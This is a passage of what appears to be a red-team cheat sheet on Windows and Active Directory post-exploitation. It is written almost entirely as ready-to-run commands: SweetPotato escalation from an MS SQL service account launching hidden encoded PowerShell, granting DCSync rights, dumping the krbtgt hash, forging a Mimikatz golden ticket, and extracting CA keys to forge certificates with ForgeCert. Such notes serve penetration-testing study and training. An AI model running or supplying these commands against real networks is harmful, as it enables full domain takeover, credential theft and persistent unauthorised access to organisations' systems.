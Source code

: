 #### MS SQL Privilege Escalation

&#x20;`NT Service\MSSQL$SQLEXPRESS`, is generally configured with a privilege called `SeImpersonatePrivilege`. [SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.

```
# Confirm Privs
execute-assembly C:\Tools\SeatBelt\Seatbelt.exe TokenPrivileges

execute-assembly C:\Tools\SweetPotato\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc ..."
```

### Domain Dominance

Add DCSync rights, if needed

```
powershell Add-DomainObjectAcl -TargetIdentity "DC=CHILD,DC=TEST,DC=LOCAL" -PrincipalIdentity <USER> -Rights DCSync
```

DCSync

```
dcsync child.DOMAIN.local CHILD\krbtgt
```

Golden Ticket

```
# create golden ticket
mimikatz kerberos::golden /user:Administrator /domain:child.DOMAIN.local  /sid:S-1-5-21-<DOMAIN SID> /aes256:<KRBTGT AES HASH> /ticket:golden.kirbi

# use ticket
make_token DEV\Administrator password

# may need to download kirbi onto box if mimikatz was used on compromised host
kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi

# drop golden ticket
rev2self
```

Forged Certificates Once on a CA, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) can extract the private keys.

```
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```

The next step is to build the forged certificate with [ForgeCert](https://github.com/GhostPack/ForgeCert).

```
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
```
